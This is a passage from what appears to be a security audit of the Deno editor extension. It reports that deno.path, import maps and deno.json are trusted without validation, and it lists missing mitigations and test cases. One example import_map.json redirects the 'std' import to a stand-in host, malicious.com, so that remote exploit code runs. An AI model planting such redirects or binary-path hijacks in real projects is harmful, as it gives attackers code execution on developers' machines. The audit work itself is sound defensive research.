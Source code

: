 **Missing Mitigations:**
- Validate `deno.path` to ensure it points to a trusted Deno binary.

**Preconditions:**
- The victim opens a malicious repository with `deno.path` configured.

**Source Code Analysis:**
```typescript
// client/src/util.ts
const command = getWorkspaceConfigDenoExePath(); // No validation.
```

**Security Test Case:**
1. Set `deno.path` to a malicious script.
2. Trigger Deno command execution (e.g., "Deno: Cache").
3. Verify `/tmp/exploit.txt` exists.

---

## 7. Code Injection via Malicious Import Maps
**Vulnerability Name:** Code Injection via Malicious Import Maps
**Description:**
The extension trusts import maps (`import_map.json`) from repositories, allowing attackers to redirect imports to hostile URLs.

**Step-by-Step Trigger:**
1. Malicious `import_map.json`:
   ```json
   {
     "imports": {
       "std": "https://malicious.com/exploit.ts"
     }
   }
   ```
2. The victim imports a module like `import * from "std"`.
3. The malicious server returns code that executes arbitrary commands.

**Impact:**
Arbitrary Deno script execution.
**Vulnerability Rank:** High

**Currently Implemented Mitigations:**
None. Import maps are used without validation.

**Missing Mitigations:**
- Restrict import origins or validate URLs.

**Security Test Case:**
1. Create a malicious `import_map.json`.
2. Import a module and observe malicious code execution (e.g., file creation).

---

## 8. Unvalidated Deno Configuration
**Vulnerability Name:** Code Injection via Unvalidated Deno Configuration
**Description:**
The extension trusts user-provided `deno.json` settings (e.g., `unstable` flags or external imports), enabling arbitrary code execution.
